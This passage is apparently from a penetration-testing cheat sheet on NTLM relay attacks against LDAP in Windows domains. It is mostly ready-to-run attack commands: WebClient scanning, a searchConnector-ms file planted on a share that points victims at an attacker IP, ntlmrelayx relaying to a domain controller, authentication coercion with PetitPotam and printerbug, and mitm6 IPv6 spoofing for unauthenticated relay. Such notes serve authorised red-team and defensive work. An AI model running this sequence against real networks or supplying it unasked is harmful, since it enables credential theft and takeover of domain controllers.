 ### LDAP Relay force HTTP/WEBDAV requests
- Requires HTTP/WEBDAV requests, because SMB signing is enabled by default.

#### Scan for target with webclient active
- https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner <DOMAIN>/<USER>:<PASSWORD>@<IP RANGE> -dc-ip <DC IP>
```

#### If no targets, place file on share to activate webclients
- https://www.bussink.net/webclient_activation/
- Filename ```Documents.searchConnector-ms```
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>//<ATTACKER IP>@80/test.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>//<ATTACKER IP>@80/test</url>
    </simpleLocation>
</searchConnectorDescription>
```

#### Enable the LDAP relay
```
ntlmrelayx.py -t ldap://<DC IP> 
```

#### Trigger target to authenticate to attacker machine
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@80/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@80/a
```

- However, since printerbug and PetitPotam both needed authentication to work, we could have just used a tool like ldapdomaindump to directly bind to LDAP ourselves and dump the data directly. To do this unauthenticated use mitm6!

### LDAP Relay with Mitm6
```
sudo python3 mitm6.py -d <DOMAIN> --ignore-nofqdn
ntlmrelayx.py -t ldap://<DC IP> -wh <DOMAIN> -6 
```
